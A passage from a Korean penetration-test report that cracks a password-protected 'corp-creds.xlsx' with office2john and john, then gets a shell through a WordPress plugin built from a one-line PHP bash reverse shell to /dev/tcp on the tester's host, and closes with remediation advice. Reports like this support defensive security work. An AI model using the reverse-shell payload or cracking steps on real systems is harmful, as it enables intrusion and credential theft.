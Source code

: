 ```
# office2john.py 이용하여 엑셀 파일 해시화 진행
└─$ python3 /usr/share/john/office2john.py ~/Downloads/corp-creds.xlsx > hash.txt

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
[ . . . ]

genesis          (corp-creds.xlsx)     
```

  - ![엑셀파일열기](../../images/2025-08-22-보고서/image-19.png)

  - 대응 방안: 민감한 계정 정보 파일 외부에서 접근할 수 없는 곳에 안전하게 보관
    - 비밀번호 - 8자리 이상, 특수문자 2자 이상, 등으로 변경

---

#### 3. 워드프레스 악성 플러그인 설치 및 실행 취약점

```
# vim reverse_plugin.php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.5.121/8443 0>&1'"); ?>
------------------------------------
# zip
zip reverse_plugin.zip reverse_plugin.php
------------------------------------
# Upload
Wordpress > Plugins > Add New > Upload Plugin -> Activate Plugin

# 점검자 칼리
nc -lnvp 8443
```

- <img src="../../images/2025-08-22-보고서/image-20.png" alt="낮은 권한 유저" style="zoom:50%;" />
- 대응 방안 1: 워드프레스 보안 플러그인 설치

```
# 워드프레스 보안 플러그인 추천 목록
1. Wordfence Security : 플러그인 취약점 탐지, 설치 경고, 실시간 방화벽

2. iThemes Security (구 Better WP Security) : 관리자 페이지 접근 제어, 파일 변경 감지, 보안 알림

3. MalCare Security : 자동 악성코드 탐지 및 제거, 플러그인 설치 모니터링
```

  - 대응 방안 2: wp-login.php와 wp-admin 폴더 IP 접근 제한

```
# Apache 웹서버에서 IP 제한 적용 방법
# 1. 워드프레스 루트 디렉토리 또는 서버 설정에서 `.htaccess` 파일을 편집 또는 생성

# 2. 아래 코드를 `.htaccess` 파일 상단에 추가
<Files wp-login.php>
    Order Deny,Allow
    Deny from all
    Allow from 123.45.67.89    # 관리자 허용 IP 주소
    Allow from 111.22.33.44    # 추가 허용 IP 주소
</Files>

<Directory /var/www/html/wp-admin>
    Order Deny,Allow
    Deny from all
    Allow from 123.45.67.89    # 관리자 허용 IP 주소
    Allow from 111.22.33.44    # 추가 허용 IP 주소
</Directory>

# 3. 실제 허용할 IP 주소로 교체

```